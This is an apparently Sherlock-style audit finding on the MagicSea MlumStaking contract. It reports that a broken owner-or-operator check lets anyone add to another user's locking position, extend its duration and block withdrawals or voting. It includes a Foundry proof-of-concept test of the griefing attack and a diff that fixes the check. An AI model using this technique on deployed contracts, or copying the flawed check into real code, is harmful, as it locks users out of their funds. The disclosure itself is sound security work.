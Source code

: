 Acidic Sky Zebra

High

# ```_requireOnlyOperatorOrOwnerOf``` does not correctly check the owner or the operator of the position leading to anyone can adjust the duration of a ```LockingPosition``` by adding to it.

## Vulnerability Detail
The ```requireOnlyOperatorOrOwnerOf``` function is supposed to check if the caller of ```addPosition``` in ```MlumStaking``` contract is, actually, the owner of the ```LockingPosition``` or authorized. However, in the way that the function call of ```_isAuthorized``` call is implemented the ```requireOnlyOperatorOrOwnerOf``` will always return true. We can see the the ```_isAuthorized``` function of ```ERC721``` here :
```solidity
    /**
     * @dev Returns whether `spender` is allowed to manage `owner`'s tokens, or `tokenId` in
     * particular (ignoring whether it is owned by `owner`).
     *
     * WARNING: This function assumes that `owner` is the actual owner of `tokenId` and does not verify this
     * assumption.
     */
    function _isAuthorized(address owner, address spender, uint256 tokenId) internal view virtual returns (bool) {
        return
            spender != address(0) &&
            (owner == spender || isApprovedForAll(owner, spender) || _getApproved(tokenId) == spender);
    }
```
In ```MlumStaking```, ```msg.sender``` is passed in both ```owner``` and ```spender``` params without checking if the ```msg.sender``` is the owner of the NFT as stated in the comments of the ```_isAuthorized``` function of ```ERC721```. This results to anyone can call ```addPosition``` function for whichever NFT they want to. By adding to the position, an attacker can adjust the duration of any NFT position and can prevent the actual owner of the NFT to withdraw their funds or vote in ```Voter``` contract.

## Impact
Anyone can change the duration of a ```LockingPosition``` can lead to a DoS attack on the actual owner of the position since the ```lockDuration``` of the position was selected by the owner so to serve his needs. By extending or reducing the duration of the position, the attacker can prevent the owner from withdrawing his funds or voting in the ```Voter``` contract among other problems for the actual owner which does not equal the extra amount in the position that the attacker added.

## Proof of concept
This PoC demonstrates the scenario where an attacker DoS the withdrawal of the actual owner of the ```LockingPosition``` by adding to it a very tiny amount and extending the duration of it.
To understand better this vulnerability, add this test in ```MlumStakingTest.sol``` and run ```forge test --mt testWithdrawDOSbyAddingToPosition```:
```solidity
function testWithdrawDOSbyAddingToPosition() public {
        _stakingToken.mint(ALICE, 100 ether);
        _stakingToken.mint(BOB, 1 ether);

        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 50 ether);
        _pool.createPosition(1 ether, 2 days);
        vm.stopPrank();

        skip(1 days);

        vm.expectRevert();
        vm.prank(ALICE);
        _pool.withdrawFromPosition(1, 0.5 ether);

        skip(1 days);

        // as long as the malicious Bob deposits amountAdd > amountStaked / (secondsInitDuration - 1) the withdraw of Alice will fail because the duration gonna be extended.
        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 5787070527029);
        _pool.addToPosition(1, 5787070527029);
        vm.stopPrank();

        vm.expectRevert();
        vm.prank(ALICE);
        _pool.withdrawFromPosition(1, 1 ether);
    }
```

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L140

## Tool used
Manual Review

## Recommendation
Consider making this change in the ```_requireOnlyOperatorOrOwnerOf``` function so to implement correctly the check :
```diff
    function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
        // isApprovedOrOwner: caller has no rights on token
-        require(ERC721Upgradeable._isAuthorized(msg.sender, msg.sender, tokenId), "FORBIDDEN");
+        require(ERC721Upgradeable._isAuthorized(ERC721Upgradeable.ownerOf(tokenId), msg.sender, tokenId), "FORBIDDEN");
    }
```